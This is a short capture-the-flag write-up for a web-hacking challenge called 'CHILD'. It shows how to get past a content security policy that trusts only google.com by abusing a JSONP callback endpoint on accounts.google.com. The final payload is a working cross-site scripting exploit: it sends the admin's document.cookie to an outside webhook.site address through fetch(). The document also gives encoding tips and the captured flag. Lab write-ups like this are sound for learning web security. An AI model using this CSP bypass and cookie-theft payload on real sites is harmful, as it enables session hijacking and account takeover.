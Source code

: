 ```yaml
---
layout: default
title: CHILD
---
```


# webhacking CHILD Solution

Here we can run scripts only from the subdomain of `*.google.com`.

However, using this github repo [JSONBee](https://github.com/zigoo0/JSONBee/blob/master/jsonp.txt), we can find snippets that let us run our code :)

I am using this snippet:
```
<script src="https://accounts.google.com/o/oauth2/revoke?callback=alert(1)"></script>
```

And, as you can see:
![XSS poc](./images/CHILD_xss_poc.png)



This will be our payload to the admin:
```
?inject=?inject=<script%20src="https://accounts.google.com/o/oauth2/revoke?callback=fetch(%27https://webhook.site/b9845d0e-4624-4ee7-89c9-90bfd2b1d3eb/?cookies=%27%252bdocument.cookie);"></script>
```
notice to base encode `+` twice.


![win picutre](./images/CHILD.png)


**Flag:** ***`FLAG{I_hacked_google.com_and_it_was_ezpz}`*** 
